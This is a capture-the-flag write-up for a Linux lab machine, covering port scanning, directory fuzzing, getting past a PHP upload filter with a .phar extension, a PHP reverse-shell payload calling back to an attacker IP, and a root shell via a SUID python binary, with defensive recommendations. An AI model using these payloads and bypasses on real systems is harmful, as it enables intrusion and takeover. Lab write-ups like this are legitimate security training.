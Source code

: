 # Rootme

OS: Linux

# NMAP# 
First we start with enumarting the open TCP ports:
```sh
nmap -p- -vv --min-rate 2000 -oA init -Pn 10.10.106.99
```
```
Nmap 7.93 scan initiated Mon Aug 14 22:38:08 2023 as: nmap -p- -vv --min-rate 2000 -oA init -Pn 10.10.106.99
Nmap scan report for 10.10.106.99
Host is up, received user-set (0.029s latency).
Scanned at 2023-08-14 22:38:08 +08 for 14s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

# port 80
Since this is a classic CTF we start with checking out the website running on port 80:

![](main.png)

```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.106.99/FUZZ -of all -o dirs80 -c -e .php,.txt,.html -v
```
As result of the fuzzing the directory we see that there are two interesting directories:

```
/panel/
/uploads/
```
When we visit the page we can see that there si a page where we can upload files:

![](upload.png)

And the possible location where the uploaded file will be stored:

![](uploads.png)

First we can verify this by simply uploading a .txt file:

![](test.png)

Page says 
> O arquivo foi upado com sucesso!

Which means (according to google translate): The file has been successfully uploaded!
php files blocked. Let's check if the file is in the directory listing of the uploads page:

![](testupload.png)

Yes it worked! I was able to open the file.
So next we try to upload a php file to see:
1. if we can upload with a php extension
2. if php get's executed.

We know that the page is using PHP with the Wappalyzer plugin. Or we can run a scan with whatweb to verify.
The file we create is a simple PHP script which simply will output "Hello Hacker" with no additional newlines or spaces. 
In a real engagement we would not use the word hacker. Opsec...

```php
<?php
 echo("Hello Hacker")
?>
```
Oh No!

> PHP não é permitido!

..,with a red background. I don't even have to translate. So we have to find a way to bypass this (server-side) filter.

A great resource for bypassing file extension checksis: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)

We start testing with .php2. Yes we have are able to upload a file with a .php2 extension.
Now we need to try if we can get "Hello Hacker" displayed on the page.

![](php2black.png)

Hmm...that doesn't look good. Nothing is shown on the page.

Okay maybe the .phar extension. 🤞

Great! The upload was successful and if we look up the file http://IP/uploads/test.phar. We get a greeting from a nice person who recognizes us:

![](testphar.png)

Next step is to get a shell. To accomplish this we can make a file with the contents:

```php


<?php

exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1| 10.10.10.10 443 >/tmp/f");

?>
```

We start a listener on our attacker machine and upload the file to the page.
Now if we request the file on the page we should get a reverse shell on our attacker machine
```sh
curl http://IP/uploads/shell.phar
```
BOOM!! We have a shell as user www-data on the machine. we can now read the user.txt flag.


![](usershell.png)

## Recommendations:
1. Apply the best practices to prevent file upload attacks: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
2. disable directory listing (CWE-548).

# privilege escalation
Enumeration for privilege escalation is performed with linpeas and we see (accoridng to linpeas) a very intersting file:

![](suidpython.png)

The suid bit is set on python which means that the file will get executed as the user who owns the file.
We need to lookup how to take advantage of this (mis)configuration. A great source is [GTFObins](https://gtfobins.github.io/gtfobins/)
To be more precise: https://gtfobins.github.io/gtfobins/python/#suid

We execute the following command to get a root shell:
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![](root.png)

## Recommendations:
1. Do not set SUID on binaries which are able to execute commands.
